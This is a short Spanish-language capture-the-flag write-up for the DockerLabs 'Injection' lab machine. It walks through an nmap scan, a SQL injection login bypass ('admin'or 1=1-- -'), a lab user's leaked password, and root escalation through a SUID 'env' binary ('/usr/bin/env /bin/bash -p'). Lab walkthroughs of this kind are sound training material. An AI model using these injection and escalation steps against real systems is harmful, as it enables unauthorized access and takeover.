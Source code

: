 # injection

Maquina INJECTION de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Creador: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

![DockerLabs](./images/injection/imagenes/Injection.png)

## INTRUSION

Comenzamos haciendo un escaneo con nmap:

```css
nmap -sVC 172.17.0.2
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 14:58 -03
Nmap scan report for 172.17.0.2
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

Vemos que solo esta abierto el puerto 22 y 80, sabiendo esto nos iremos directo al navegador y vemos un `panel de login`. Luego de probar las credenciales tipias como `admin:admin` o `root:root` pero ninguna funciona, por lo que continuaremos con probar una inyeccion sql, para esto, `escribiremos el usuario y junto a el 'or 1=1-- -` y de contraseña lo que sea, finalmente quedaria así:

```css
admin'or 1=1-- -
```

Habiendo hecho esto logramos iniciar sesion y nos dan el siguiente mensaje: ![Acceso](./images/injection/imagenes/dylan.png)

Ahora continuaremos probando el usuario "dylan" con la contraseña "KJSDFG789FGSDF78". Ya estamos dentro.

## ESCALADA DE PRIVILEGIOS

Lo primero que hacemos es ejecutar `sudo -l` pero como no existe ejecutamos `find / -perm -4000 2>/dev/null` y vemos que el binario `env` sale como `/usr/bin/env`, por lo que buscamos en [GTFOBins](https://gtfobins.github.io) y vemos que si ejecutamos lo siguiente escalamos de privilegios a root:

```css
/usr/bin/env /bin/bash -p
```

y listo, somos ROOT.

![root](./images/injection/imagenes/root.png)

Gracias por leer.
